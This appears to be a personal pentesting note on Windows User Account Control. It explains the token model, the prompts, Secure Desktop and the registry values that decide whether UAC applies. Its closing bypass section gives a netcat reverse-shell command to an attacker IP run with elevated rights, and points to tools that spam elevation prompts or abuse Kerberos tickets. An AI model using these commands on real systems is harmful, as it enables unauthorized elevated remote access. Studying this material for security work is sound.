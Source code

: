 public:: true
alias:: UAC

- The *[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/)* (UAC) is a Windows security feature that protects the operating system by **running most applications with standard user privileges**, even if the user launching them is an Administrator.
- An administrative user obtains [two access tokens after a successful logon](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#sign-in-process)
	- One is a standard user token *(AKA filtered admin token)*, which is used to perform all non-privileged operations.
	- The other one is a regular administrator token and is used when the user wants to perform a privileged operation.
- When changes to the system require administrator-level permission, UAC notifies the user *(part of the local Administrators group)*, giving the opportunity to approve or deny the change via the well-known *consent prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705940657849_0.png){:height 292, :width 461} 
  #+END_CENTER
	- If the user approves the change, the action is performed with the highest available privilege.
	- If the user doesn't approve the change, the action isn't performed and the application that requested the change is prevented from running.
- When changes to the system require administrator-level permission, UAC notifies the standard user, giving the opportunity to provide credential for a local Administrator via the *credential prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705941606160_0.png){:height 363, :width 315} 
  #+END_CENTER
- Security minded applications might be programmed to allow a combination of administrator and standard user operations. In this case the shield icon is shown ![image.png](../assets/image_1705941862012_0.png){:height 37, :width 22}
	- For example, from the **Date and Time** standard users can view the clock and change the time zone, but a full administrator access token is required to change the local system time.
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705941910846_0.png){:height 274, :width 337} 
	  #+END_CENTER
- **Secure Desktop**
	- Available since Windows 10
	- The secure desktop’s primary difference from the user desktop is that only **trusted processes running as SYSTEM are allowed** to run here (that is, nothing is running at the user’s privilege level). It helps protect against **input and output spoofing** by presenting the credentials dialog box in a **protected section of memory** that is accessible only by **trusted system processes**.
	- Otherwise an attacker can trick
		- users to disclose their passwords
		- Spoof the mouse cursor by hiding the real cursor and replacing it with an offset so the cursor is actually pointing to the **Allow** button
- **UAC Architecture**
	- A detailed explanation of how UAC works can be found [here](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#uac-architecture).
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705959070635_0.png)
	  #+END_CENTER
- **Check if UAC is enabled**
	- To confirm if UAC is enabled do:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      EnableLUA    REG_DWORD    0x1
	  ```
		- `1` then UAC is **activated**
		- `0` then UAC is **inactive**
		- If the key doesn't exist, then UAC is **inactive**
	- Then, check which level is configured:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      ConsentPromptBehaviorAdmin    REG_DWORD    0x5
	  ```
		- If `0` then, UAC won't prompt (like disabled)
		- If `1` the admin is asked for username and password to execute the binary with high rights (on Secure Desktop)
		- If `2` *(Always notify me)* UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
		- If `3` like `1` but not necessary on Secure Desktop
		- If `4` like `2` but not necessary on Secure Desktop
		- if `5` *(default)* it will ask the administrator to confirm to run non Windows binaries with high privileges
	- Then, you have to take a look at the value of `LocalAccountTokenFilterPolicy`
		- If the value is `0`, only the RID 500 user *(built-in Administrator)* is able to perform admin tasks without UAC
		- If the value is `1`, all accounts inside "Administrators" group can perform admin tasks without UAC
	- Summary
		- If `EnableLUA=0` or doesn't exist, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=1`, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=0`, no UAC for RID 500 *(Built-in Administrator)*
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=1`, UAC for everyone
- **UAC Bypass**
	- #+BEGIN_CAUTION
	  Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAS prompt appears
	  #+END_CAUTION
	- If UAC is already disabled (`ConsentPromptBehaviorAdmin` is `0`) you can execute a reverse shell with admin privileges (high integrity level) using something like:
	  ```powershell
	  #Put your reverse shell instead of "calc.exe"
	  Start-Process powershell -Verb runAs "calc.exe"
	  Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
	  ```
	- Noisy brute-force UAC bypass
		- If you don't care about being noisy you could always run something like **[ForceAdmin](https://github.com/Chainski/ForceAdmin)** that asks to elevate permissions until the user does accepts it.
	- Abuse Kerberos Tickets with [KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)